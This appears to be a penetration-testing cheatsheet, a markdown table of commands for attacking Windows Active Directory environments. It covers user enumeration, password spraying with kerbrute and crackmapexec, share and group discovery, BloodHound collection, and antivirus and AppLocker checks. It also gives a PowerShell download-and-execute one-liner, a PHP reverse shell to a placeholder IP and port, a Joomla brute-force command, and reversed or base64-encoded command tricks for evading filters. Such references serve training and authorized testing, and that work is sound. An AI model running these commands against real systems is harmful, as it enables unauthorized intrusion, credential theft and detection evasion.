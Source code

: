 # Cheatsheet

| Command                                                                                                      | Description                                            |
| ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| `fping -asgq <subnet/cidr>`                                                                                  | Quick way to ping all hosts in a subnet on kali.       |
| `./kerbrute userenum -d <Domain> --dc <dc IP> <username wordlist> -o <result output>`                        | Kerbrute userenum syntax, given a username wordlist    |
| `crackmapexec smb <IP address> -u <username> -p <password> --pass-pol`                                       | Crackmapexec with valid creds to eval password policy. |
| `rpcclient -U "" -N <IP address> rpcclient $> enumdomuser`                                                   | RPC Client NULL authentication enum domain users.      |
| `net accounts`                                                                                               | Enum password policy on Windows                        |
| `crackmapexec smb <IP address> --users`                                                                      | CrackMapExec to find users in Windows domain           |
| `kerbrute passwordspray -d <Domain> --dc <IP Address> <users.txt> <password>`                                | Kerbrute password spray                                |
| `sudo crackmapexec smb <IP Address> -u <users.txt> -p <password> \| grep +`                                  | CrackMapExec password spray                            |
| `Get-MpComputerStatus`                                                                                       | Check AntiVirus                                        |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`                                   | Check App Locker.                                      |
| `$ExecutionContext.SessionState.LanguageMode`                                                                | Find PowerShell Language Mode                          |
| `sudo crackmapexec smb <IP address> -u <username> -p <password> --users`                                     | Authenticated scan for more users.                     |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --groups`                                        | Authenticated scan for more groups.                    |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --loggedon-users`                                | Authenticated scan for logged on users.                |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --shares`                                        | Authenticated scan for shares.                         |
| `sudo crackmapexec smb <IP address> -u <user> -p <passowrd -M spider_plus --share <share>`                   | Authenticated scan to crawl target share               |
| `smbmap -u <user> -p <passowrd> -d <domain> -H <IP address>`                                                 | Authenticated scan to list shares.                     |
| `sudo bloodhound-python -u <user> -p <password> -ns <nameserver IP> -d <domain> -c all`                      | Authenticated Bloodhound all.                          |
| `"IEX(New-Object Net.WebClient).downloadString('<URL>')"`                                                    | PowerShell one-liner used to download a file.          |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");`                                         | PHP reverse shell                                      |
| `sudo python3 joomla-brute.py -u <url> -w <password list> -usr <username or user list>`                      | Joomla brute script                                    |
| **Reversed Commands**                                                                                        |                                                        |
| `echo 'whoami' \| rev`                                                                                       | Reverse a string                                       |
| `$(rev<<<'imaohw')`                                                                                          | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                             | Encode a string with base64                            |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`                                                 | Execute b64 encoded string                             |
| **Reversed Commands**                                                                                        |                                                        |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                                       |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64                            |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                             |